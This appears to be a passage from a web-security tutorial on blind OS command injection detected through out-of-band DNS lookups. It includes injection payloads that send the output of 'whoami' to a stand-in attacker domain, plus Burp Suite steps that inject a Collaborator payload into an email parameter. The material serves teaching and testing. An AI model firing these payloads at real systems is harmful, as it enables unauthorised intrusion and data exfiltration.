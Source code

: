 An attacker can use an injected command that will trigger an [out-of-band (OAST)](https://portswigger.net/burp/application-security-testing/oast) network interaction with a system that they control, using OAST techniques. For example:
```txt
& nslookup oast.web-attacker.com &
```
This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor their system to see if the lookup happens, confirming a command injection vulnerability.

To do this via Burp Suite Professional, follow these steps:
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
3. Right-click and select **Insert Collaborator payload** to insert a Burp Collaborator subdomain where indicated in the modified `email` parameter.

Another technique is using out-of-band channel to easily exfiltrate output from injected commands:
```txt
& nslookup `whoami`.oast.web-attacker.com &
```
This causes a DNS lookup to the attacker's domain containing the result of the `whoami` command:
```txt
wwwuser.kgji2ohoyw.web-attacker.com
```